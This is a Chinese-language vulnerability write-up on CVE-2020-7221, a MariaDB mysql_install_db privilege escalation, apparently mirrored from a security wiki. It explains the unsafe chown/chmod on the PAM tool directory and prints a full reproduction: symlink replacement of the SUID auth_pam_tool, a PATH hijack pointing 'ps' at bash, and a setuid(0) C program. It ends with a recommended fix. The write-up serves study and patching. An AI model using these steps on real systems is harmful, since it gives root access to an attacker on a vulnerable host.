



# （CVE-2020-7221）Mariadb 提权漏洞

> 原文：[http://book.iwonder.run/0day/Mariadb/CVE-2020-7221.html](http://book.iwonder.run/0day/Mariadb/CVE-2020-7221.html)

## 一、漏洞简介

MariaDB 10.4.7 到 10.4.11 中的 mysql_install_db 允许将特权从 mysql 用户帐户升级到 root 用户，因为 chown 和 chmod 的执行不安全，如对 auth_pam_tool_dir / auth_pam_tool 的 chmod 04755 的 symlink 攻击所证明的那样。注意：这不会影响 Oracle MySQL 产品，该产品以不同的方式实现 mysql_install_db。

## 二、漏洞影响

Mariadb 10.4.7 到 10.4.11

## 三、复现过程

#### docker 环境搭建：

> 1.  docker pull mariadb:10.4.8
> 2.  docker run -it 2ef19234ff46 /bin/bash

#### 漏洞分析

首先定位漏洞点。

```
find / -name "mysql_install_db" 
```



在 bash 脚本上下文中，如果$user 被定义则能进入「配置不当」漏洞点。

```
chown $user "$pamtooldir/auth_pam_tool_dir"

chmod 0700 "$pamtooldir/auth_pam_tool_dir" 
```

这里配置了 auth_pam_tool_dir 目录的归属权和所有权，权限归属于$user。 （这里是可控点之一）

```
chown 0 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 

chmod 04755 "$pamtooldir/auth_pam_tool_dir/auth_pam_tool" 
```

这里配置了 auth_pam_tool 文件为 0（root）所有权，4755 文件权限（4 为 suid 权限）。想要进入这个漏洞点需要$srcdir 变量值长度为 0 才能触发。

关于 suid 属性：

> SUID 属性一般用在可执行文件上，当用户执行该文件时，会「临时拥有该执行文件的所有者权限」。一旦程序拥有 SUID 权限的话，运行该程序时会以最高权限运行。

##### 回溯 $srcdir 与 $user

1.  $user


在脚本传递 args 参数时可控制$user 变量。

1.  $srcdir


也在初始化操作时可控制变量，初始化时为空。

那么想要进入这个漏洞点需要$srcdir 为空，$user 需要设置值。

结合上文描述使用此命令才能触发漏洞点：

```
./mysql_install_db --user=mysql 
```

#### 漏洞复现

寻找 suid 属性的程序

```
find /* -perm -u=s -type f 2>/dev/null 
```

搜索到的 suid 属性程序「auth_pam_tool」替换成我们的恶意 suid 程序。

```
1\. rm auth_pam_tool
2\. ln -s /root/pwn auth_pam_tool
3\. export PATH=.:$PATH
4\. ln -s /bin/bash ps 
```

编写一个具有 suid 权限的恶意程序：

```
#include <unistd.h>
#include <stdlib.h>
int main(void)
{
    setuid(0);
    setgid(0);
    system("ps");
    return 0;
} 
```



切换回 root，在 root 权限下运行 mysql_install_db 脚本（触发修改 chmod 命令）



再回到 mysql 用户权限下执行 auth_pam_tool


提权成功。

可以看到这个漏洞是由于 suid 与目录权限设置不当，才导致被提权利用的风险。建议在修复中设置 auth_pam_tool_dir 目录权限为 root 所有：

```
root:mysql  0750 /usr/lib/mysql/plugin/auth_pam_tool_dir 
```

## 参考链接

> [https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um](https://mp.weixin.qq.com/s?__biz=MzU5NDgxODU1MQ==&mid=2247486415&idx=1&sn=0e413fdfd22f21580e0c70251e53a7cb&chksm=fe7a2f57c90da64190913e4f40d5f854dcc0c794ac988ce667f1ba0d4a262575b5c4a67b65a1&mpshare=1&scene=1&srcid=&sharer_sharetime=1582037009796&sharer_shareid=346bf064ccfaeb680ec3e1af3a4fc9a8&key=36a0b0f21e7aca1c7ade662e9184d730b9617a817ebf64e5bbc6048142797fa6b31c917039b5d1308f1d16cf77ba9f43d541a1bd197ead9b66bb01969c4f1bf2c54e19862f1f9bc1f449495c27554e90&ascene=1&uin=MTU0OTU5NDkzMA%3D%3D&devicetype=Windows+10&version=62080079&lang=zh_CN&exportkey=AUm27aB0HayWjmPDBsXi7NU%3D&pass_ticket=VkgA7hk5gRtBGyr1o4%2Bh5PlNbfx095JODofk2U16AOMJewFkqv%2BeZkeziLm0G2um)

